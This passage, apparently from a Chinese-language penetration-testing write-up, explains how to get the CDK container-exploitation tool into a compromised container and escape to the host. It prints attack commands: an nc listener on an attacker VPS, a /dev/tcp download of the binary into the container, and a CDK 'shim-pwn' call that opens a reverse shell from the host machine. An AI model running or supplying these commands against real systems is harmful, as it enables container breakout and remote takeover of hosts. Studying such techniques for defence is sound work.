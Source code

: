 接下来我们使用大名鼎鼎的CDK

[https://github.com/cdk-team/CDK/wiki/CDK-Home-CN](https://github.com/cdk-team/CDK/wiki/CDK-Home-CN)

如何将CDK上传到容器内部?

1.webshell下直接上传

2.非webshell下的出网环境

```php
#vps上面开启nc
nc -lvp 999 <cdk

#容器内写入
cat < /dev/tcp/[vps-ip]/[vps-port] >cdk

#反弹宿主机shell
chmod a+X cdk
./cdk run shim-pwn reverse [ip] [port]
```

vps上面开启nc

![](assets/1703484795-def333ece124b702fca03bdc42808d42.png)

反弹宿主机shell

![](assets/1703484795-e3547bd35399d51c05574975245738ce.jpeg)

![](assets/1703484795-2d932e4fe82f7fe17bac3985fbe0078b.png)
